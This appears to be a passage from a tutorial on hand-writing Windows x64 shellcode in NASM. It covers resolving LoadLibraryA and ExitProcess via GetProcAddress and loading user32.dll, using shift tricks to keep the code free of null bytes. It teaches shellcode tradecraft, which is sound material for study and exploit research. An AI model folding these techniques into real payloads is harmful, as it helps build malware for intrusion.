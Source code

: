 I really wish it didn't take so many lines of code to dynamically locate kernel32 + your initial API, but it's been this way for a long time it seems.  Thankfully, the other sections of code are much shorter and easier to follow, at least in my opinion. 😸

***Locate the address for LoadLibraryA using GetProcAddress handle***
-
```nasm
; Prepare arguments for getting handle to LoadLibraryA:
    pop r15                        ; temporary use
    mov r12, r15                   ; save copy of GetProcAddress for future use
    mov rdi, r8                    ; make a copy of kernel32 base address for future use
    mov rcx, r8                    ; RCX = handle to kernel32.dll (first argument)
; Load "LoadLibraryA" onto the stack
    mov rax, 0x41797261            ; aryA
    push rax
    mov rax, 0x7262694C64616F4C    ; LoadLibr
    push rax
    mov rdx, rsp                   ; RDX points to "LoadLibraryA" (second argument)
    sub rsp, 0x30                  ; decimal 48 ( 3 x 16 bytes)
    call r15                       ; Call GetProcAddress
    add rsp, 0x30                  ; alignmnent/shadow space adjustments
    mov r15, rax                   ; holds LoadLibraryA!
```

***Locate the address for ExitProcess using GetProcAddress handle***
-
```nasm
;getexitprocess
    mov r14, r12                    ; temporary assignment of GetProcess handle
    mov rcx, rdi                    ; RCX = handle to kernel32.dll (first argument)
; Load "ExitProcess" onto the stack
    mov rax, 0x90737365             ; 'ess'
    shl eax, 0x8                    ; 0000000073736500
    shr eax, 0x8                    ; 0000000000737365 terminate our string w/ no nulls present in our shellcode!
    push rax
    mov rax, 0x636F725074697845     ; ExitProc 
    push rax
    mov rdx, rsp                    ; RDX points to "ExitProcess" (second argument)
    sub rsp, 0x30
    call r14                        ; Call GetProcAddress
    add rsp, 0x30
    mov r14, rax                    ; holds ExitProcess!
```

***Locate user32.dll using LoadLibraryA handle***
-
```nasm
;locate user32.dll
    mov rax, 0x90906C6C             ; add "ll" string to RAX
    shl eax, 0x10                   ; 000000006C6C0000
    shr eax, 0x10                   ; 0000000000006C6C
    push rax                        ; push RAX to stack
    mov rax, 0x642E323372657375     ; Add "user32.d" string to RAX.
    push rax                        ; Push RAX to stack
    mov rcx, rsp                    ; Move a pointer to User32.dll into RCX.
    sub rsp, 0x30
    call r15                        ; Call LoadLibraryA("user32.dll")
    mov rdi, rax                    ; holds User32.dll address
```
